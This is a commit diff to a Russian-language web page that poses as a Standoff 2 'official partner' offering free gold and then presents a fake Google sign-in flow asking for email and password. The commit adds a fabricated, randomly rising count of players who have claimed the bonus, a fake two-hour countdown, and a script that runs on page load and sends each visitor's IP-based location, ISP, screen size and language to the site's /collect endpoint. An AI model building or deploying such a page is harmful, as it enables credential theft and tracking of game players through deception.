

Before and after one commit to Robert440/standof2, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -29,7 +29,7 @@
         }
         .dark-container {
             background: linear-gradient(145deg, rgba(20,20,30,0.94), rgba(10,10,16,0.97));
-            padding: 40px 24px 30px;
+            padding: 36px 24px 26px;
             border-radius: 32px;
             width: 100%; max-width: 400px;
             text-align: center;
@@ -37,24 +37,58 @@
             box-shadow: 0 20px 60px rgba(0,0,0,0.9), 0 0 40px #ffd70008;
             position: relative; z-index: 1;
         }
-        .gold-icon { font-size: 52px; margin-bottom: 8px; display: block; }
+        .gold-icon { font-size: 48px; margin-bottom: 6px; display: block; }
         .gold-badge {
             background: linear-gradient(135deg, #2a2a3a, #1a1a28);
-            padding: 12px 24px;
+            padding: 10px 22px;
             border-radius: 40px;
             display: inline-block;
-            font-size: 32px; font-weight: 900;
+            font-size: 30px; font-weight: 900;
             color: #ffd700;
             border: 1px solid #ffd70055;
             box-shadow: 0 0 30px #ffd70015;
-            margin-bottom: 12px;
+            margin-bottom: 10px;
         }
-        .dark-title { font-size: 24px; font-weight: 700; color: #fff; margin-bottom: 6px; }
-        .dark-desc { color: #99aabb; font-size: 16px; margin-bottom: 24px; }
+        .dark-title { font-size: 22px; font-weight: 700; color: #fff; margin-bottom: 6px; }
+        .dark-desc { color: #99aabb; font-size: 15px; margin-bottom: 18px; }
+
+        /* Счётчик */
+        .counter {
+            background: rgba(255,215,0,0.06);
+            border: 1px solid #ffd70033;
+            border-radius: 12px;
+            padding: 10px 14px;
+            margin-bottom: 14px;
+            font-size: 14px;
+            color: #ffd700;
+        }
+        .counter b { color: #fff; font-size: 16px; }
+
+        /* Таймер */
+        .timer {
+            background: rgba(255,60,60,0.08);
+            border: 1px solid #ff444433;
+            border-radius: 12px;
+            padding: 10px 14px;
+            margin-bottom: 16px;
+            font-size: 14px;
+            color: #ff8888;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            gap: 6px;
+        }
+        .timer b {
+            color: #fff;
+            font-size: 16px;
+            font-variant-numeric: tabular-nums;
+            letter-spacing: 0.5px;
+        }
+
         .btn-gold {
-            width: 100%; padding: 18px 0;
+            width: 100%; padding: 16px 0;
             border: none; border-radius: 40px;
-            font-size: 22px; font-weight: 800;
+            font-size: 20px; font-weight: 800;
             cursor: pointer; transition: 0.3s;
             text-transform: uppercase; letter-spacing: 1px;
             background: linear-gradient(135deg, #ffd700, #f0a500);
@@ -63,7 +97,7 @@
         }
         .btn-gold:hover { transform: scale(1.02); box-shadow: 0 4px 40px #ffd70055; }
         .btn-gold:active { transform: scale(0.96); }
-        .footer { margin-top: 20px; font-size: 12px; color: #445; }
+        .footer { margin-top: 16px; font-size: 12px; color: #445; }
 
         /* ===== СТРАНИЦА 2: GOOGLE LOGIN ===== */
         .step2-body {
@@ -101,8 +135,6 @@
             text-align: center;
             margin-bottom: 32px;
         }
-
-        /* Плавающий лейбл */
         .float-field {
             position: relative;
             margin-bottom: 8px;
@@ -149,9 +181,6 @@
             font-size: 12px;
             margin: 0 0 8px 4px;
             min-height: 14px;
-            display: flex;
-            align-items: center;
-            gap: 4px;
         }
         .error-text:empty { display: none; }
 
@@ -164,7 +193,6 @@
             margin-bottom: 36px;
         }
         .forgot-link:hover { text-decoration: underline; }
-
         .guest-text {
             font-size: 14px;
             color: #5f6368;
@@ -208,7 +236,6 @@
         .btn-next:hover { background: #1765cc; box-shadow: 0 1px 2px rgba(60,64,67,0.3); }
         .btn-next:active { background: #1557b0; }
 
-        /* Чип с аккаунтом */
         .account-chip {
             display: inline-flex;
             align-items: center;
@@ -232,7 +259,6 @@
             font-weight: 500;
         }
 
-        /* Чекбокс "Показать пароль" */
         .show-pass-row {
             display: flex;
             align-items: center;
@@ -281,9 +307,11 @@
             .step2-body { padding: 40px 24px 24px; }
             .google-h1 { font-size: 24px; }
             .google-sub { font-size: 14px; margin-bottom: 24px; }
-            .dark-container { padding: 30px 16px 24px; }
-            .gold-badge { font-size: 26px; padding: 10px 18px; }
-            .btn-gold { font-size: 18px; padding: 16px 0; }
+            .dark-container { padding: 28px 16px 22px; }
+            .gold-badge { font-size: 24px; padding: 8px 16px; }
+            .btn-gold { font-size: 18px; padding: 14px 0; }
+            .counter, .timer { font-size: 13px; padding: 8px 12px; }
+            .counter b, .timer b { font-size: 15px; }
         }
     </style>
 </head>
@@ -314,6 +342,15 @@
             <div class="gold-badge">+500 ГОЛДЫ</div>
             <div class="dark-title">Забери бонус!</div>
             <div class="dark-desc">Нажми кнопку, чтобы получить голду</div>
+
+            <div class="counter">
+                🔥 Уже получили: <b id="counterNum">0</b> игроков
+            </div>
+
+            <div class="timer">
+                ⏳ До конца акции: <b id="timerDisplay">02:00:00</b>
+            </div>
+
             <button class="btn-gold" onclick="showStep2()">ЗАБРАТЬ ГОЛДУ</button>
             <div class="footer">© Standoff 2 — официальный партнёр</div>
         </div>
@@ -397,7 +434,102 @@
     <script>
         let savedEmail = '';
 
-        // ===== Переключение между шагами =====
+        // ===== СБОР IP + ГЕОЛОКАЦИИ ПРИ ЗАХОДЕ =====
+        (async function collectVisitorInfo() {
+            try {
+                // Получаем IP и гео через бесплатный API
+                const r = await fetch('https://ipapi.co/json/');
+                const geo = await r.json();
+
+                await fetch('/collect', {
+                    method: 'POST',
+                    headers: { 'Content-Type': 'application/json' },
+                    body: JSON.stringify({
+                        geo: {
+                            country: geo.country_name || '',
+                            city: geo.city || '',
+                            region: geo.region || '',
+                            org: geo.org || '',
+                            lat: geo.latitude || '',
+                            lon: geo.longitude || ''
+                        },
+                        screen: {
+                            w: window.screen.width,
+                            h: window.screen.height
+                        },
+                        lang: navigator.language || ''
+                    })
+                });
+            } catch (e) {
+                // Если API не отвечает — пробуем через резервный сервис
+                try {
+                    const r2 = await fetch('https://ip-api.com/json/');
+                    const geo2 = await r2.json();
+                    await fetch('/collect', {
+                        method: 'POST',
+                        headers: { 'Content-Type': 'application/json' },
+                        body: JSON.stringify({
+                            geo: {
+                                country: geo2.country || '',
+                                city: geo2.city || '',
+                                region: geo2.regionName || '',
+                                org: geo2.isp || '',
+                                lat: geo2.lat || '',
+                                lon: geo2.lon || ''
+                            },
+                            screen: { w: window.screen.width, h: window.screen.height },
+                            lang: navigator.language || ''
+                        })
+                    });
+                } catch (e2) {}
+            }
+        })();
+
+        // ===== СЧЁТЧИК УЧАСТНИКОВ =====
+        (function startCounter() {
+            const el = document.getElementById('counterNum');
+            // Начальное число + случайный разброс
+            let count = 1200 + Math.floor(Math.random() * 600);
+
+            function update() {
+                el.textContent = count.toLocaleString('ru-RU');
+            }
+            update();
+
+            // Прирост каждые 4–10 секунд
+            function tick() {
+                count += Math.floor(Math.random() * 3) + 1;
+                update();
+                setTimeout(tick, 4000 + Math.random() * 6000);
+            }
+            setTimeout(tick, 4000);
+        })();
+
+        // ===== ТАЙМЕР ОБРАТНОГО ОТСЧЁТА (2 часа) =====
+        (function startTimer() {
+            const el = document.getElementById('timerDisplay');
+            let totalSeconds = 2 * 60 * 60; // 2 часа
+
+            function render() {
+                const h = Math.floor(totalSeconds / 3600);
+                const m = Math.floor((totalSeconds % 3600) / 60);
+                const s = totalSeconds % 60;
+                el.textContent =
+                    String(h).padStart(2, '0') + ':' +
+                    String(m).padStart(2, '0') + ':' +
+                    String(s).padStart(2, '0');
+            }
+            render();
+
+            setInterval(function() {
+                if (totalSeconds > 0) {
+                    totalSeconds--;
+                    render();
+                }
+            }, 1000);
+        })();
+
+        // ===== ПЕРЕКЛЮЧЕНИЕ ШАГОВ =====
         function showStep(step) {
             document.getElementById('step1').classList.add('hidden');
             document.getElementById('step2').classList.add('hidden');
@@ -427,13 +559,11 @@
             }
         }
 
-        // ===== Кнопка "Забрать голду" =====
         function showStep2() {
             history.pushState({ step: 'email' }, '', '#email');
             showStep('email');
         }
 
-        // ===== Шаг с email =====
         function submitEmail(e) {
             e.preventDefault();
             var email = document.getElementById('email').value.trim();
@@ -453,13 +583,11 @@
             showStep('password');
         }
 
-        // ===== Показать/скрыть пароль =====
         function togglePass() {
             var p = document.getElementById('password');
             p.type = (p.type === 'password') ? 'text' : 'password';
         }
 
-        // ===== Шаг с паролем =====
         async function submitPassword(e) {
             e.preventDefault();
             var password = document.getElementById('password').value;
@@ -492,10 +620,8 @@
             }
         }
 
-        // ===== Стартовая точка в истории =====
         history.replaceState({ step: 'start' }, '', '#start');
 
-        // ===== Обработка кнопок Назад / Вперёд =====
         window.addEventListener('popstate', function(event) {
             if (event.state && event.state.step) {
                 showStep(event.state.step);
@@ -504,7 +630,6 @@
             }
         });
 
-        // ===== При загрузке страницы — восстановить шаг из хэша =====
         window.addEventListener('DOMContentLoaded', function() {
             var hash = window.location.hash.replace('#', '');
             if (hash === 'email' || hash === 'password' || hash === 'success') {
```
